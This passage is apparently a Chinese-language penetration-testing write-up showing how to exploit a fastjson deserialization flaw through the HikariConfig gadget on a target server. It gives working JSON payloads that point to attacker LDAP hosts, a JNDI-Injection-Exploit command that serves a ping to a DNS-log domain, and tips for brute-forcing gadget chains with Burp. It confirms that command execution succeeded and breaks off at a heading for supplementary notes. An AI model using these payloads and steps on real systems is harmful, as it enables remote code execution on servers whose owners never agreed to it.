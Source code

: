 存在com.zaxxer.hikari.HikariConfig类，那就可以打这条链了  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib90HkqMicBLDXXTslibCrBPw05AkOawQibGUO46NAKZwc2ERwFgc9zCy5WAdyxP9JrcyOic5YZmIfN28g/640?wx_fmt=png&from=appmsg "")  
  
目标服务器的fastjson版本符合条件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib90HkqMicBLDXXTslibCrBPw0AJHKM38rTJUqjo6hm0C2ulscd9PRIaR6f2dscpHwNQWfjuhE1CRlJA/640?wx_fmt=png&from=appmsg "")  
```
{"@type":"com.zaxxer.hikari.HikariConfig","metricRegistry":"ldap://xxx.org"}
```  
  
先试一下可不可以收到请求  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib90HkqMicBLDXXTslibCrBPw0X7ndiasszSvLZZMovWrmUQhgzibCricpTRbgI3TUD9o6iapbUaWLS7J4yA/640?wx_fmt=png&from=appmsg "")  
  
收到请求了，直接开打  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib90HkqMicBLDXXTslibCrBPw0E2xialOaLl6SicxeYzS02bKzcrKNZydO3bHS5ficZVUA77gzBfBnCRGpw/640?wx_fmt=png&from=appmsg "")  
  
  
在服务器起一个jndi服务，执行ping命令  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib90HkqMicBLDXXTslibCrBPw0snvJTyYUib98s4CxC12sclKjHQX6esg8whlaLKAbXjBpEviam0sZo5zg/640?wx_fmt=png&from=appmsg "")  
```
java -jar JNDI-Injection-Exploit-Plus-2.2-SNAPSHOT-all.jar -C ping bd1e1a32fe.ipv6.1433.eu.org
```  
  
  
标红的这里是要打的反序列化链，例如cc链cb链那些  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uibib5d3SgJN7qESkpyxgWib6yqc4vRiahLuxiaQ8IHSOQRtw4BpU9ZTgWM6YNQR86tT93CzBZkRy6blUBw/640?wx_fmt=png&from=appmsg "")  
```
{"@type":"com.zaxxer.hikari.HikariConfig","metricRegistry":"ldap://ip:port/deserialCommonsBeanutils1"}
```  
  
  
链子太多一个一个试太久了，直接bp跑一遍也是可以的  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib90HkqMicBLDXXTslibCrBPw0VuvJEqgeKmm595iaictYicXgQcPj4Zc6texX9mqGywoxgGpqcjS1BZN3A/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib90HkqMicBLDXXTslibCrBPw0vR7xSGAjA2jAd3TxGULIIxvsXB5fQskSwNdq0DNY7wOIPLIgZabAVA/640?wx_fmt=png&from=appmsg "")  
  
放到字典跑  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib90HkqMicBLDXXTslibCrBPw0qeibDamuv1nOghVhVrLcFDMtwRrfUVGXM2F9ztYJI1nluD2LuQROsrg/640?wx_fmt=png&from=appmsg "")  
  
线程记得调低一点  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib90HkqMicBLDXXTslibCrBPw0cAQqCVHGHZtwyCMjcLmgh654sOtPdiagxH09cfQSENIzEKjSLmjzqsQ/640?wx_fmt=png&from=appmsg "")  
  
回到dns平台，收到请求，服务器执行了ping命令  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib90HkqMicBLDXXTslibCrBPw0KTnrOKU9od3f1f4h1KENeR6UAKjxx19pKdxD5W610dBliaEgqmUkbyA/640?wx_fmt=png&from=appmsg "")  
  
  
补充：  
  